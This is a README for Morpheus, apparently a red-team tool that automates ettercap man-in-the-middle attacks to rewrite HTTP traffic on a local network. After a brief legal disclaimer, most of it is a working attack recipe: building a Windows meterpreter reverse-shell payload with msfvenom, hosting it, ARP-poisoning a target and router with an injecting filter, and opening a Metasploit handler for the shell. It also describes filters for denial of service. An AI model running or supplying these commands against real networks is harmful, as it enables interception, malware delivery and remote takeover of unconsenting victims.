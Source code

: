 [![Version](https://img.shields.io/badge/MORPHEUS-1.0-brightgreen.svg?maxAge=259200)]()
[![Stage](https://img.shields.io/badge/Release-developing-red.svg)]()
[![Build](https://img.shields.io/badge/Supported_OS-linux-orange.svg)]()
[![Github All Releases](https://img.shields.io/github/downloads/atom/atom/total.svg)]()
[![AUR](https://img.shields.io/aur/license/yaourt.svg)]()

# Morpheus - automated ettercap TCP/IP Hijacking tool
    Version release : v1.0-Alpha
    Author : pedro ubuntu  [ r00t-3xp10it ]
    Distros Supported : Linux Ubuntu, Kali, Mint, Parrot OS
    Suspicious-Shell-Activity (SSA) RedTeam develop @2016

# LEGAL DISCLAMER
    The author does not hold any responsibility for the bad use
    of this tool, remember that attacking targets without prior
    consent is illegal and punished by law.

# Framework description
    morpheus.sh framework automates tcp/ip packet manipulation tasks by using
    ettercap filters to manipulate tcp/udp requests under MitM attacks replacing
    the http packet contents by our own contents befor sending the http packet
    back to the host that have request for it (tcp/ip hijacking)

    work floow:
    1º - poison local lan (mitm)
    2º - target requests webpage
    3º - attacker modifies webpage response
    4º - modified packet forward back to target

# What can we acomplish by using ettercap filters?
    morpheus ships with a collection of etter filters writen be me
    to acomplish various tasks like: replacing images in webpage,
    replace text in webpages, inject payloads using html <form> tag
    and denial-of-service attack (drop,kill packets from source),
    this tool also gives you the ability to build/compile your etter
    filter from scratch and lunch it truth morpheus framework..

# Dependencies
    ettercap, zenity

# Build msfvenom binary
    sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.67 LPORT=666 -f exe -o payload.exe



# Compile [filter].eft filter into iframe.ef
    sudo etterfilter /root/iframe.eft -o /root/iframe.ef

# copy files to apache2 webroot
    sudo cp /root/payload.exe /var/www/html

# Sart apache2 service
    /etc/init.d/apache2 start

# ip_forwarding
    echo "1" > /proc/sys/net/ipv4/ip_forward

# run ettercap mitm+filter
    sudo ettercap -T -q -i wlan0 -F /root/iframe.ef -M ARP /targetip/ /routerip/


# IF YOUR PC USES IPV6 THEN USE THIS CONFIG INSTEAD OF THE ABOVE CODE
    sudo ettercap -T -q -i wlan0 -F /root/iframe.ef -M ARP /targetip// /routerip//


# Start a multi-handler
    sudo msfconsole -x 'use exploit/multi/handler; set LHOST 192.168.1.67; set LPORT 666; set PAYLOAD windows/meterpreter/reverse_tcp; exploit -j -k'


_EOF
